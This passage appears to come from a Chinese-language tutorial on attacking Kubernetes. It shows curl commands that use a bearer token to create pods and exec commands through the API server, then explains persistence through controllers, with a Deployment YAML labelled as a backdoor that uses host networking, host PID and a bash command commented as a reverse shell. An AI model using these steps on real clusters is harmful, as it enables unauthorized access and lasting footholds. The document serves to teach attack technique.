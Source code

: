 ```php
EOF
#创建pod
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -k ${APISERVER}/api/v1/namespaces/default/pods -X POST --header 'content-type: application/yaml' --data-binary @nginx-pod.yaml
#查看信息
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/default/pods/nginx
#执行命令
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespace/default/pods/test-444/exec?command=ls&command=-l
or
api/v1/namespaces/default/pods/nginx-deployment-66b6c48dd5-4djlm/exec?command=ls&command=-l&container=nginx&stdin=true&stdout=true&tty=true
```

### 持久化

- DaemonSets、Deployments
- lShadow API
- Rootkit
- cronjob持久化
- Deployment

创建容器时，通过启用DaemonSets、Deployments，可以使容器和子容器即使被清理掉了也可以恢复，攻击者经常利用这个特性进行持久化，涉及的概念有：

##### ReplicationController（RC）ReplicationController（RC）

ReplicationController确保在任何时候都有特定数量的 Pod 副本处于运行状态。

##### Replication Set（RS）Replication Set（RS）

Replication Set简称RS，官方已经推荐我们使用RS和Deployment来代替RC了，实际上RS和RC的功能基本一致，目前唯一的一个区别就是RC只支持基于等式的selector

##### DeploymentDeployment

主要职责和RC一样，的都是保证Pod的数量和健康，二者大部分功能都是完全一致的，可以看成是一个升级版的RC控制器

官方组件kube-dns、kube-proxy也都是使用的Deployment来管理

```php
这里使用Deployment来部署后门

#dep.yaml
apiVersion: apps/v1
kind: Deployment  #确保在任何时候都有特定数量的Pod副本处于运行状态
metadata:
  name: nginx-deploy
  labels:
    k8s-app: nginx-demo
spec:
  replicas: 3  #指定Pod副本数量
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: nginx
        image: nginx:1.7.9
        imagePullPolicy: IfNotPresent
        command: ["bash"] #反弹Shell
```